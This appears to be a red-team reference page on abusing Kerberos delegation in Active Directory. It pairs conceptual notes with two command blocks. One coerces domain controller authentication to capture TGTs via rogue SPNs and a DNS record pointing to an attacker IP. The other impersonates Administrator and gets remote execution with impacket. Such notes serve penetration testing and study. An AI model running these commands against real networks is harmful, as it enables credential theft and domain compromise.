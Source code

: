 # [Delegation](https://www.thehacker.recipes/ad/movement/kerberos/delegations)

## Questions to ask yourself
  *  Any user/computer objects with unreadable [delegation attributes](https://github.com/SpacemanHenry/hacknotes/blob/main/Information%20Gathering/Service%20Enumeration/LDAP.md#delegation-permissions)?
  *  Any objects with delegation privileges [kerberoastable](https://github.com/SpacemanHenry/hacknotes/blob/main/Exploitation/Authentication/Kerberos/Kerberoast.md)?
  *  What services have service principal names configured?
      *  What users have high privileges over those services?

## Things to remember
  *  Unconstrained delegation requires non-default configuration for user objects
  *  Add FQDNs to `hosts` file or point to name server to avoid DNS errors
  *  All examples here [covered in Red XOR Blue blog post](https://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html)

## Useful tools
  *  [`krbrelayx`](https://github.com/dirkjanm/krbrelayx) toolkit for abusing unconstrained delegation
  *  [`impacket-getST`](https://github.com/fortra/impacket/blob/master/examples/getST.py) for impersonating users via constrained delegation

## [Unconstrained delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)
  *  KUD service accounts are provided a TGT of any user that auths via SPN
      *  Any method of coerced authentication can often be used... get creative!
  *  `krbrelayx` for abusing user accounts with KUD (relies on [`Write servicePrincipalName`](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/register-a-service-principal-name-for-kerberos-connections?view=sql-server-ver16))
      *  Create evil SPNs for service account using non-existent hostname
      *  Create evil DNS record matching evil SPNs pointing to attacker IP
      *  Coerce authentication to evil SPNs and capture TGT
  *  Computer accounts with KUD are [easily abused by extracting delegated TGTs from memory](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)
      *  Coerce authentication to default SPNs such as HOST/CIFS

// Unconstrained delegation abuse via service (user) account 
```
git clone https://github.com/dirkjanm/krbrelayx && cd krbrelayx
python3 addspn.py -u corp.local\\sqlsvc -p 'password' -s host/FAKE.CORP.LOCAL ldap://DC.CORP.LOCAL
python3 addspn.py -u corp.local\\sqlsvc -p 'password' -s cifs/FAKE.CORP.LOCAL ldap://DC.CORP.LOCAL
python3 dnstool.py -u corp.local\\sqlsvc -p 'password' -r FAKE.CORP.LOCAL -a add -d [ATTACKER IP] DC.CORP.LOCAL
python3 krbrelayx.py --krbsalt CORP.LOCALsqlsvc --krbpass 'password'
python3 printerbug.py corp.local/sqlsvc:'password'@DC.CORP.LOCAL FAKE.CORP.LOCAL
```

## [Constrained delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation)
  *  KCD service accounts can request TGS for a set list of services as any user
      *  Relies on [S4U extensions](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/8ee85a47-7526-4184-a7c5-25a5e4155d7d?redirectedfrom=MSDN) to support protocol transition, delegation privilege validation, etc.
      *  `impacket` suite will [attempt to modify](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/) the `sname` field when the target service doesn't match a given TGS
  *  `impacket-getST` for obtaining impersonated service tickets (not suitable for `Kerberos only` delegation)

```
impacket-getST -spn 'WWW/SERVER.corp.local' -impersonate 'Administrator' corp.local/sqlsvc:'password' -dc-ip 10.0.0.1
export KRB5CCNAME=$(pwd)/Administrator.ccache
impacket-smbexec corp.local/Administrator@SERVER.corp.local -k -no-pass -dc-ip 10.0.0.1 -target-ip 10.0.0.2
```
